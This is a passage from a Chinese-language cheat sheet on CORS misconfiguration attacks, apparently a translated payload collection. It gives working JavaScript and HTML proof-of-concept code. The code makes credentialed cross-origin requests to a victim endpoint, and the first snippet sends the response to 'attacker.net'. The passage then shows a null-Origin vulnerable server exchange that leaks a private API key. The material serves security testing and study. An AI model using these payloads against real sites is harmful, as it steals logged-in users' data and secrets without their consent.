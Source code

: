 #### 漏洞证明

此PoC需要相应的JS脚本托管在`evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

或者

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

### 空Origin

#### 易受攻击的实现

服务器可能不会反射完整的`Origin`头，但允许`null` origin。这在服务器响应中看起来像这样：

```ps1
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[私有API密钥]"}
```
